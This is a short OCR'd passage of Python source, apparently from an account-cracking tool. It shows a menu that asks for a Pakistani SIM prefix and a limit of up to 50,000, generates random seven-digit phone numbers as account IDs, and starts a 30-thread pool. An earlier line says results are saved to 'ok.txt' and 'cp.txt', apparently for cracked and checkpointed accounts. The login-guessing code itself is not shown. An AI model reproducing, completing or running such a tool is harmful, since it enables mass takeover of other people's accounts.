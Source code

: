 	print('[?] Idz saved in [ok.txt,cp.txt]')
	input('Press Enter To Go Back To Menu')
	rehan()

#____

def ali_khan():
	user=[]
	os.system('clear')
	print(logo)
	print('[•] EXAMPLE :92318,92345,92323,92306.ETC')
	lines()
	kode = input('[•]\033[1;37m PUT YOUR SIM CODE : ')
	os.system('clear')
	print(logo)
	print('[•] MAX LIMIT [50000]')
	lines()
	limit = int(input('[•] ENTER LIMIT :  '))
	for nmbr in range(limit):
		nmp = ''.join(random.choice(string.digits) for _ in range(7))
		user.append(nmp)
	with ThreadPool(max_workers=30) as yaari:
		os.system('clear')
		print(logo)
		tl = str(len(user))
		print('[•] TOTAL ACCOUNTS    : \033[1;32m'+tl)
